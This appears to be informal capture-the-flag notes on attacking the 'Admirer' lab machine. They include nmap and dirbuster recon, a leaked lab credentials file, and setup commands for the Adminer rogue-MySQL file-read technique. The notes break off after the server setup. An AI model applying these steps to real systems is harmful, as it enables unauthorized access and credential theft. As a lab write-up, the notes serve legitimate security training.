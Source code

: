  10.10.10.187 

nmap -sC -Pn -v 10.10.10.187

Nmap scan report for admirer.htb (10.10.10.187)
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer



website shows art pieces

leonardo da vinci
nikola tesla
banksy
Johann Sebastian Bach
particle accelerator


found in website source

<div>
    <section>
        <h2>Get in touch</h2>
        <form method="post" action="#"><!-- Still under development... This does not send anything yet, but it looks nice! -->
            <div class="fields">
                <div class="field half">
                    <input type="text" name="name" id="name" placeholder="Name" />
                </div>
                <div class="field half">
                    <input type="text" name="email" id="email" placeholder="Email" />
                </div>
                <div class="field">
                    <textarea name="message" id="message" rows="4" placeholder="Message"></textarea>
                </div>
            </div>
            <ul class="actions">
                <li><input type="submit" value="Send" class="primary" /></li>
                <li><input type="reset" value="Reset" /></li>
            </ul>
        </form>
    </section>
</div>




began running dirbuster


http://10.10.10.187/robots.txt

User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir

not allowed to access admin-dir
di

apache version 2.4.25


https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt


run dirbuster with seclists/discovery/common.txt    

used dirbuster, aimed at directory of http://10.10.10.187/admin-dir and searched for .txt extension files


Starting dir/file list based brute forcing
Dir found: /admin-dir/ - 403
File found: /admin-dir/contacts.txt - 200
DirBuster Stopped


sqlmap does not return anything to be injected and scripted


Credentials.txt

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuserx
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```



sql database is `admirerdb`

-- Server version	10.1.41-MariaDB-0+deb9u1



use dirbuster again for http://10.10.10.187/utility-scripts/ with seclists/discovery/web_content/big.txt


found http://10.10.10.187/utility-scripts/adminer.php

attempted login with waldo and password from admin_tasks.php, does not work

googling adminer vuln


https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
 BIG VULNERABILITY FOUND

 https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

 ```
    Setting up MySQL server within public IP address
    Connecting adminer to the MySQL server (now user has logged to adminer)
    Reading local files by read data local infile command, inserting the results in a table
 ```


create mysql server on my side

/usr/bin/mysql -u root -p
CREATE DATABASE exploit;
CREATE USER 'exploit'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON * . * TO 'exploit'@'localhost';
FLUSH PRIVILEGES;
use exploit
create table exploit(data varchar(250));


CREATE DATABASE admirer;
CREATE USER ‘demo’@’%’ IDENTIFIED BY ‘demo_admirer’;
GRANT ALL PRIVILEGES ON * . * TO ‘demo’@’%’;
FLUSH PRIVILEGES;
USE admirer;
create table test(data VARCHAR(255));


